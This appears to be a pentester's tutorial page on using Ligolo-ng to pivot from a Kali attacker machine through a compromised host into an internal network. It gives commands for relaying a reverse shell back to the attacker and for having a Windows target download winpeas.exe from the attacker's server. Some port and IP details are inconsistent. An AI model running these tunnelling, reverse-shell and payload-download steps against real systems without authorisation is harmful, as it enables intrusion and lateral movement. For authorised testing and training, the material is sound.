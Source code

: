 # Ligolo-ng

**Ligolo-ng** is a _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS).

{% embed url="https://github.com/nicocha30/ligolo-ng" %}

## Setting Up

{% embed url="https://github.com/nicocha30/ligolo-ng/releases" %}

For the setup, we need only two files. Agent and Proxy

Agent: File to be installed on pivot machine\
Proxy: File to be installed on attacker machine



## Attack Scenario 1

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

For this first attack scenario, we have our attacker machine (kali) and pivot machine (ubuntu).\
Pivot machine has an additional network interface (172.16.1.15).\
We cannot ping/access this {172.16.1.15} network from our attacker machine (kali).

Lets get access to this network

In our attacker machine\
`sudo ip tuntap add user [your_username] mode tun ligolo` \
this will add new tun interface `ligolo`\
`sudo ip link set ligolo up` \
this will enable the newly created interface `ligolo`

Now we need two file\
`ligolo-ng_agent_version-linux_version.tar.gz` for pivot machine\
`ligolo-ng_proxy_version-linux_version.tar.gz`for attacker machine

get latest version form official github repo.

Then transfer the agent file to the pivot machine (ubuntu)

### In attacker machine

`./proxy -selfcert`

### In pivot machine

`./agent -connect kali_linux_ip:11601 -ignore-cert`\
port `11601` is by default set on proxy in the attacker machine\
we should use `-autocert` flag when the pivot machine has internet access. This is more secure than `-ignore-cert`



### In attacker machine

`session` to list the session and select the session we want to connect\
`ifconfig or ipconfig` to view the interface of the pivot machine.

Now in new terminal \
sudo ip route add `172.16.1.0/24 dev ligolo`\
here we are adding route for 172.16.1.0/24 network

once the route is set.

Go back to the terminal where agent is agent is running\
`start` -> this wll start tunnel to the pivot machine.



Now we have connection to the `172.16.1.0/24`network\
Meaning we can view the webserver running  on port 80 of windows `172.16.1.16`

## Getting Reverse Shell

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Lets say we now have access to the windows machine on `172.16.1.0/24` which was previously not routable from our attacker host. Now we want reverse shell connection from that machine (windows).

That windows machine cannot reach us, it does not have route to our ip, it can only reach the pivot machine.

To solve this

We can listen to ports on Agent (pivot machine) and redirect the connection back to us (attacker machine)

we can set this up using

*   In attacker proxy terminal \
    `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp`

    on the pivot machine, any device or interface on port `3000` will redirect our port `10000`

Which means we can create a payload with \
lhost: 172.16.1.15\
lport: 10000

when the pivot machine gets data on port 30000\
it will redirecto it to port 10000 on our attacker machine(kali)\


Meaning we can listen on 10000 to get the reverse shell connection.



## Transferring File Between Machines

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



To transfer files, we can add another listener.

`listener_add --addr 0.0.0.0:11111 --to 127.0.0.1:22222 --tcp`

In our attacker machine run python http server on port 22222

In windows target machine, download the file using

`Invoke-WebRequest -Uri "http://172.16.1.5:11111/winpeas.exe" -OutFile winpeas.exe`

Here, windows will send request to port 11111 on pivot (ubuntu) and ligolo-ng will redirect it to port 22222 on our attacker machine\
\
\
More more insight, what this video by John Hammond

{% embed url="https://youtu.be/qou7shRlX_s" %}
